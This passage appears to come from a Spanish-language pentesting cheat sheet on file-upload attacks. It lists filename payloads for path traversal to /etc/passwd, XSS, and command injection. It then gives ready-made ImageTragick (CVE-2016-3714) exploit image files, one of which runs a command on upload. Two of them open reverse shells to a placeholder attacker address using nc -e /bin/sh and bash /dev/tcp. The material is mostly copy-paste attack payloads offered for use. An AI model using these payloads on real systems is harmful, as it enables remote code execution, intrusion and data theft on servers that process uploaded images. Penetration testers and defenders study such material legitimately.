 ```bash
image.png../../../../../../../etc/passwd
```

-   XSS Payloads

```bash
'"><img src=x onerror=alert(document.domain)>.extension
```

-   File Traversal

```bash
../../../tmp/lol.png
```

-   Command Injection

```bash
; sleep 10;
```

## ImageTragick Exploitation – CVE-2016-3714

Este nombre se le ha dado a una vulnerabilidad crítica que afecta a [ImageMagick](https://www.imagemagick.org/) <= `6.9.3-9`.

ImageMagick es una utilidad de código abierto utilizada por numerosas aplicaciones para crear, editar, convertir o componer archivos de imagen. Según su documentación, esta utilidad puede leer y escribir más de 200 formatos de archivo de imagen. Personalmente, he usado ImageMagick en una de mis aplicaciones web para cambiar el tamaño de las imágenes de perfil cargadas por los usuarios, y conozco otras aplicaciones web que hacen lo mismo.

Para hacer un exploit que funcione, todo lo que tiene que hacer es copiar el siguiente código en su editor de texto favorito y guardarlo como una imagen (.jpg, .png, etc.).

```bash
# exploit.png
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/oops.jpg"|touch "/tmp/hacked)'
pop graphic-context
```

Cuando el usuario carga la imagen, se ejecuta el comando (touch /tmp/hacked). Aunque el usuario no verá la salida de los comandos, esto se puede escalar fácilmente a un shell inverso. Echa un vistazo al siguiente ejemplo.

```bash
# reverse.png
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE)'
pop graphic-context
```

o

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
